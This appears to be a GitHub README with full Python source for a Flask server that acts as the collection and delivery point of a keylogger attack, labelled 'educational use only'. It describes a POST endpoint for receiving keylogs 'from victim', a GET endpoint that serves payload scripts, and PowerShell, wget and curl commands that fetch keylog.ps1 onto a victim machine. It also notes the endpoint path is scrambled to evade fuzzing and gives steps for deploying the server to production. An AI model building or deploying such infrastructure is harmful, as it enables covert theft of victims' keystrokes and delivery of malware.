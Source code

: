**EDUCATIONAL USE ONLY, USE AT YOUR OWN RISK!**
# Web server with Flask
Simple python script, to launch a web server which takes POST and GET requests.

## How to use:

- Download the file `webhook`
- Edit `app.run(host='IP_YOU_WANT_TO_LISTEN', port=PORT_NUMBER)` , to the IP and Port, you want to listen the incoming traffic.
- Give permission `chmod 700 webhook`
- Create subfolder `data` in the same location where `webhook` will be ran.
	- Inside `data` you can put all the, for example files, you want to serve.
- Run `./webhook`
  
**Profit!**   
Webhook is now running:
- `/c2VydmVy` end point, for example `http://IP_YOU_WANT_TO_LISTEN/c2VydmVy`, accepts POST requests, in our project, designed for receiving the keylogs from victim.
- `/c2VydmVy/filename` endpoint takes GET requests, for example if you have `keylog.ps1` script in previously created `data` subfolder, same location where the webhook is executed, you can fetch the script to victim:
	- Windows (2 examples): 
		- `Invoke-WebRequest -Uri http://IP_YOU_WANT_TO_LISTEN/c2VydmVy/keylog.ps1 -OutFile "test.ps1"`
		- `(New-Object System.Net.WebClient).DownloadFile("IP_YOU_WANT_TO_LISTEN/c2VydmVy/logger.ps1", "test.ps1")`
	- Linux (2 examples): 
		- `wget http://IP_YOU_WANT_TO_LISTEN/c2VydmVy/keylog.ps1`
		- `curl http://IP_YOU_WANT_TO_LISTEN/c2VydmVy/logger.ps1 -o test.ps1`
---

### Commented code:

```python
#!/bin/python3
from flask import Flask, request, send_from_directory
import os

app = Flask(__name__)

# Define the working dir to a variable
WORKING_DIR = "data"

# Function to get the next available log number
def get_next_log_number():
    log_number = 1
    while os.path.exists(os.path.join(WORKING_DIR, f'log-{log_number}.txt')):
        log_number += 1
    return log_number

# @app.route('/')
# def handle_root():
#    return "KUCKUU!"

# Handling POST requests to the specific endpoint
# Scrambled to make FUZZing harder
@app.route('/c2VydmVy', methods=['POST'])
def handle_webhook_post():
    # Checking if the request method is POST
    if request.method == 'POST':
        # Getting the data from the request
        data = request.data

        # Check if the data contains Mac-style line endings
        if b'\r' in data:
            # Replace Mac-style line endings with Unix-style line endings
            data = data.replace(b'\r', b'\n')

        # Getting the next available log number
        log_number = get_next_log_number()
        # Generating the log filename based on the log number
        log_filename = f'log-{log_number}.txt'

        # Writing the received data to the log file in the script's directory
        log_filepath = os.path.join(WORKING_DIR, log_filename)
        with open(log_filepath, 'wb') as file:
            file.write(data)

        # Returning a response indicating successful receipt and logging of data
        return f"Webhook data received and logged as {log_filename}", 200
    else:
        # Returning a 501 status code for unsupported methods
        return "Unsupported method", 501

# Handling GET requests to the specific endpoint
# Scrambled to make FUZZing harder
@app.route('/c2VydmVy/<filename>', methods=['GET'])
def download_file(filename):
    try:
        # Using send_from_directory to serve the file from the script's directory
        return send_from_directory(WORKING_DIR, filename, as_attachment=True)
    except FileNotFoundError:
        # Returning a 404 status code if the file is not found
        return "File not found", 404

# Running the Flask app if this script is executed directly
if __name__ == '__main__':
    # Configuring the Flask app to run on a specific host and port
    app.run(host='IP_YOU_WANT_TO_LISTEN', port=PORT_NUMBER)
```


### Deployment to production

Deployment to production have been tested with:   
**Debian 12 - 1 Core - 256mb RAM**

Using the guides below:  

With Nginx and Gunicorn:   
[DigitalOcean - How to serve Flask application with Gunicorn and Nginx](https://www.digitalocean.com/community/tutorials/how-to-serve-flask-applications-with-gunicorn-and-nginx-on-ubuntu-22-04)

With Apache:   
[Tero Karvinen - Deploy Python Flask to Production](https://terokarvinen.com/2020/deploy-python-flask-to-production/)

**Also noteworthy is the docker implementation of this flask server, which is slightly edited though, for future improvement and development:**   
[Docker Flask Server](https://github.com/therealhalonen/docker_flask_server)
